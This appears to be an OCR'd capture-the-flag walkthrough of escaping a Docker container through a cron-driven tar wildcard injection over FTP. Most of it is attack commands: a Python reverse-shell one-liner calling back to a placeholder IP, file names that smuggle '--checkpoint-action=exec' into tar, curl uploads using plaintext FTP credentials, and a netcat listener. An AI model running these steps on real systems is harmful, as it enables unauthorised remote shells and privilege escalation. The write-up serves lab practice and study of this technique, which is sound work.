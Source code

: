 >> found two things : username of ftp and password of that user.
>> this script is incomplete we have two complete this script.
>> ftp is running outside the docker and in which a crontab is also running 
>> that make tar file using all the files in files folder in ftp .

# after some enumeration i found a vulnerbility that is : tar wildcard
>> using this we escape the docker container.

>> we have to check the ftp service is writable or not 
>> so run the following command :
# curl -s -D -v -P -' ftp://username:passwpord@host/'
>> result is shown all the info.

>> we have to create shell.sh file contain reverse shell of python
>> do the following commands in victim machine:

# echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.     AF_INET, socket.SOCK_STREAM);s.connect((\"<IP>\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'" > shell.sh

# echo "" > "/var/www/html/--checkpoint=1"
# echo "" > "/var/www/html/--checkpoint-action=exec=sh shell.sh"

# curl -v -P - -T "/var/www/html/shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
# curl -v -P - -T "/var/www/html/--checkpoint=1" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
# curl -v -P - -T "/var/www/html/--checkpoint-action=exec=sh shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'

>> and listen the incoming connection using nc on givin port.
>> at last got a backupmgr shell.
>> i enumerate some files having permission of usef jeff

# find / -type -f -user jeff 2>/dev/null
